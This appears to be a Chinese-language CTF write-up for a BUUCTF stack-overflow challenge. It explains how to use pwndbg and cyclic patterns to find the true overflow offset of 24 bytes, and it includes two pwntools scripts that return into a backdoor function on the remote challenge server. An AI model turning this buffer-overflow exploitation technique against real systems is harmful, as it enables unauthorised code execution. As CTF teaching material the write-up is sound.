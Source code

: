 ### Pwndbg 动态调试偏移

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67d9292c88c538a9b5c033b0.png)

开局一个输入

![](https://pic1.imgdb.cn/item/67d9293c88c538a9b5c033b4.png)

后门函数也给出了

![](https://pic1.imgdb.cn/item/67d9295a88c538a9b5c033cd.png)

双击 &v4 跳转到了 0c 这里

![](https://pic1.imgdb.cn/item/67d9296a88c538a9b5c033e4.png)

按照正常的思路的话溢出 `0x0c + 4` 字节即可，但实际上打不通远程

```python
from pwn import *

p = remote('node5.buuoj.cn',29379)

flag = 0x0804856D

payload = b'a' * 16 + p32(flag)

p.sendline(payload)
p.interactive()
```

![](https://pic1.imgdb.cn/item/67d929d688c538a9b5c0347b.png)

这种情况就是 IDA 也不知道 v4 一开始位置在哪

参照之前的一些栈溢出，要么明显标出起始位要么就是起始位

使用 cyclic 生成随机字符

![](https://pic1.imgdb.cn/item/67d92a5c88c538a9b5c034ac.png)

然后 dbg 中 run 程序输入字符

因为数据过多导致程序错误会暂停

![](https://pic1.imgdb.cn/item/67d92a8488c538a9b5c034b7.png)

使用 `cyclic -l 0x61616167` 计算偏移得出 24

![](https://pic1.imgdb.cn/item/67d92aae88c538a9b5c034c1.png)

修改 payload 偏移

```python
from pwn import *

p = remote('node5.buuoj.cn',29379)

flag = 0x0804856D

payload = b'a' * 24 + p32(flag)

p.sendline(payload)
p.interactive()
```

